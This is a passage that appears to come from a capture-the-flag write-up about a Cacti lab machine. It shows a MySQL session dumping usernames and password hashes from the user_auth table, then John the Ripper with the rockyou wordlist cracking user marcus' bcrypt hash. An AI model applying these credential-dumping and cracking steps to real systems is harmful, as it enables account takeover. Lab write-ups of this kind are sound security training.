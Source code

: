     | show_tree              | char(2)               | YES  |     | on      |                |
    | show_list              | char(2)               | YES  |     | on      |                |
    | show_preview           | char(2)               | NO   |     | on      |                |
    | graph_settings         | char(2)               | YES  |     | NULL    |                |
    | login_opts             | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graphs          | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_trees           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_hosts           | tinyint(3) unsigned   | NO   |     | 1       |                |
    | policy_graph_templates | tinyint(3) unsigned   | NO   |     | 1       |                |
    | enabled                | char(2)               | NO   | MUL | on      |                |
    | lastchange             | int(11)               | NO   |     | -1      |                |
    | lastlogin              | int(11)               | NO   |     | -1      |                |
    | password_history       | varchar(4096)         | NO   |     | -1      |                |
    | locked                 | varchar(3)            | NO   |     |         |                |
    | failed_attempts        | int(5)                | NO   |     | 0       |                |
    | lastfail               | int(10) unsigned      | NO   |     | 0       |                |
    | reset_perms            | int(10) unsigned      | NO   |     | 0       |                |
    +------------------------+-----------------------+------+-----+---------+----------------+
    25 rows in set (0.002 sec)
    MySQL [cacti]> select username,password from user_auth;
    +----------+--------------------------------------------------------------+
    | username | password                                                     |
    +----------+--------------------------------------------------------------+
    | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
    | guest    | 43e9a4ab75570f5b|               
    | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
    +----------+--------------------------------------------------------------+
    3 rows in set (0.001 sec)  



### Crack Hashes

I'll drop these into a file and try to crack them. `hashcat` is slow on
my setup with brcypt, but `john` breaks marcus' hash relatively quickly:



    oxdf@hacky$ /opt/john/run/john hashes --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    funkymonkey      (marcus) 
